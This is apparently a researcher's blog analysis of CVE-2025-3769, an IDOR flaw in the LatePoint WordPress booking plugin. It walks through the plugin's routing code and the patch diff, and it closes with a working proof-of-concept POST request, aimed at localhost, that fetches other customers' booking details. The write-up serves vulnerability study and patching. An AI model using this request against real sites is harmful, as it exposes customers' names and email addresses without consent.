


# CVE-2025-3769 Analysis & POC

--------

<!--more-->

## CVE & Basic Info

The **LatePoint – Calendar Booking Plugin for Appointments and Events** plugin on WordPress contains an **Insecure Direct Object Reference (IDOR)** vulnerability in all versions up to and including **5.1.92**, via the `view_booking_summary_in_lightbox` parameter, due to **missing validation on user-controlled keys**.
This vulnerability allows an **unauthenticated attacker** to access appointment details, including **customer names and email addresses**.

* **CVE ID**: [CVE-2025-3769](https://www.cve.org/CVERecord?id=CVE-2025-3769)
* **Vulnerability Type**: Insecure Direct Object References (IDOR)
* **Affected Versions**: <= 5.1.92
* **Patched Versions**: 5.1.93
* **CVSS severity**: Low (5.3)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress LatePoint Plugin](https://wordpress.org/plugins/latepoint/)

## Requirements

* **Local WordPress & Debugging**

  * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
  * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** - **LatePoint**:

  * `5.1.92` – **vulnerable**
  * `5.1.93` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any diff tool.

## Analysis

The plugin registers the following action hook:

```php {title="latepoint.php v5.1.92" data-open=true hl_lines=[]}
add_action( 'wp_ajax_nopriv_latepoint_route_call', array( $this, 'route_call' ) );
```

`wp_ajax_nopriv_` is a hook for unauthenticated users. When a request is sent to the endpoint `/wp-admin/admin-ajax.php` with the parameter `action=latepoint_route_call`, the callback `route_call` is executed:

```php {title="latepoint.php v5.1.92" data-open=true hl_lines=[]}
public function route_call() {
    $route_name = OsRouterHelper::get_request_param( 'route_name', OsRouterHelper::build_route_name( 'dashboard', 'index' ) );
    OsRouterHelper::call_by_route_name( $route_name, OsRouterHelper::get_request_param( 'return_format', 'html' ) );
}
```

The `route_call()` function calls `get_request_param()` with two parameters: `'route_name'` and the default value `OsRouterHelper::build_route_name( 'dashboard', 'index' )` if the `route_name` parameter does not exist in the request.

```php {title="route_helper.php v5.1.92" data-open=true hl_lines=[]}
public static function get_request_param($name, $default = false){
    // $name = 'route_name'
    // $default = OsRouterHelper::build_route_name( 'dashboard', 'index'
    if(isset($_GET[$name])){
      $param = sanitize_text_field(wp_unslash($_GET[$name]));
    }elseif(isset($_POST[$name])){
      $param = sanitize_text_field(wp_unslash($_POST[$name]));
    }else{
    	$param = $default;
    }
    return $param;
}
```

```php {title="route_helper.php v5.1.92" data-open=true hl_lines=[]}
public static function build_route_name($controller, $action){
    return $controller.'__'.$action;
}
```

After obtaining the value of `$route_name`, the function continues by calling `call_by_route_name`:

```php {title="route_helper.php v5.1.92" data-open=true hl_lines=[3]}
public static function call_by_route_name($route_name, $return_format = 'html'){
    OsDebugHelper::log_route($route_name, $return_format);
    $route_data = self::convert_route_name_to_controller_and_action($route_name);
    if(!empty($route_data)){
        $controller_obj = $route_data['controller'];
        $action = $route_data['action'];
        if($return_format) $controller_obj->set_return_format($return_format);
        // check if user is allowed to access this route
        if($controller_obj->can_current_user_access_action($action)){
            $controller_obj->route_name = $route_name;
            $controller_obj->$action();
        }else{
            if($controller_obj->get_return_format() == 'json'){
                $controller_obj->send_json( ['status' => LATEPOINT_STATUS_ERROR, 'message' => __('Not Authorized', 'latepoint')] );
            }else{
                echo '<div class="latepoint-not-authorized"><div class="not-authorized-message">'.esc_html__('Not Authorized', 'latepoint').'</div></div>';
            }
            exit();
        }
    }else{
        esc_html_e('Page Not Found', 'latepoint');
    }
}
```

The function `call_by_route_name()` logs the route and retrieves the corresponding controller and action for that route.

```php {title="route_helper.php v5.1.92" data-open=true hl_lines=[5,10]}
public static function convert_route_name_to_controller_and_action($route_name): array{
    list($controller_name, $action) = explode('__', $route_name);
    if(empty($controller_name) || empty($action)) return [];
    $controller_name = str_replace('_', '', ucwords($controller_name, '_'));
    $controller_class_name = 'Os'.$controller_name.'Controller';
    if(class_exists($controller_class_name)) {
        $controller_obj = new $controller_class_name();
        if(method_exists($controller_obj, $action)) {
            // check if action is valid
            return ['controller' => $controller_obj, 'action' => $action];
        }else{
            return [];
        }
    }else{
        return [];
    }
}
```

The function receives `$route_name` in the format `'controller__action'`.

1. Split the string by `__` into `$controller_name` and `$action`.
2. If empty → return `[]`.
3. Convert `$controller_name` to PascalCase, remove `_`, and add prefix `Os` and suffix `Controller` → class name.
4. Check if the class exists → create object.
5. Check if the method exists in the object → return array `['controller' => object, 'action' => method]`.
6. If the class or method does not exist → return empty array `[]`.

The function `call_by_route_name()` then checks `$route_data`. If not empty, it sets the return format and checks access permission via `can_current_user_access_action($action)`. If the current user is allowed to access this action, it calls the method: `$controller_obj->$action()`.

By default, when a user has a `LatePoint` cookie (becomes a customer), this condition is satisfied.



To obtain this cookie, the user needs to place an order and use the create account functionality:



---

When diffing the code, I found that some logic in the `OsCustomerCabinetController` class functions was fixed by checking ownership before returning data:

```php
if ( $order->is_new_record() || ( $order->customer_id != OsAuthHelper::get_logged_in_customer_id() ) ) {
    $this->send_json( array(
        'status' => LATEPOINT_STATUS_ERROR,
        'message' => __('Not Allowed', 'latepoint')
    ) );
}
```


This matches my analysis above, for example:

**Valid route**:

```
route_name=customer_cabinet__view_booking_summary_in_lightbox
```

will be mapped to:

```
OsCustomerCabinetController::view_booking_summary_in_lightbox()
```

`view_booking_summary_in_lightbox()` is called to return booking data.

## Flow


flowchart TD
A["Unauthenticated Attacker"]
--> B["Create Booking (no login required)"]

B --> C["Creates Customer account"]
C --> D["Customer cookie issued (logged-in as customer)"]

D --> E["Attacker sends request to admin-ajax.php?action=latepoint_route_call"]

E --> F["route_name=customer_cabinet__view_booking_summary_in_lightbox"]

F --> G["Router resolves to OsCustomerCabinetController"]

G --> H["can_current_user_access_action() → PASS"]

H --> I["view_booking_summary_in_lightbox() called"]

I --> J["Booking ID taken from request"]

J --> K["No ownership validation (<= 5.1.92)"]

K --> L["Sensitive booking data leaked (email, name, etc.)"]


## Proof of Concept (PoC)

1. Send request:

```http
POST /wp-admin/admin-ajax.php?t=1766721895425 HTTP/1.1
Host: localhost
Cookie: __stripe_mid=f13365af-449c-4412-b77c-7213da0dbe814d9925; wordpress_test_cookie=WP%20Cookie%20check; wp_lang=en_US; latepoint_cart_86a9106ae65537651a8e456835b316ab=8ffe0e2c-9c69-48f8-94d9-18dd24022f90; latepoint_customer_logged_in_cookie

action=latepoint_route_call&route_name=customer_cabinet__view_booking_summary_in_lightbox&params=booking_id=other_booking_id&return_format=json
```

**Result**:


## Conclusion

The CVE‑2025‑3769 vulnerability originates from missing ownership validation in the actions of `OsCustomerCabinetController`. A user with a valid session can access other users’ bookings. Version 5.1.93 fixes this by validating `customer_id` before returning data, preventing IDOR.

## Key Takeaways

* Authentication does not equal authorization.
* Never trust client-supplied data (IDs, routes, params).
* Always check ownership at the business logic layer.
* Dynamic routing requires strict access control.
* IDOR occurs when user–object relationships are not properly validated.

## References

[IDOR](https://book.hacktricks.wiki/en/pentesting-web/idor.html)

[WordPress LatePoint Plugin <= 5.1.92 is vulnerable to Insecure Direct Object References (IDOR)](https://patchstack.com/database/wordpress/plugin/latepoint/vulnerability/wordpress-latepoint-plugin-5-1-92-unauthenticated-insecure-direct-object-reference-vulnerability)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-12-26-cve-2025-3769/  

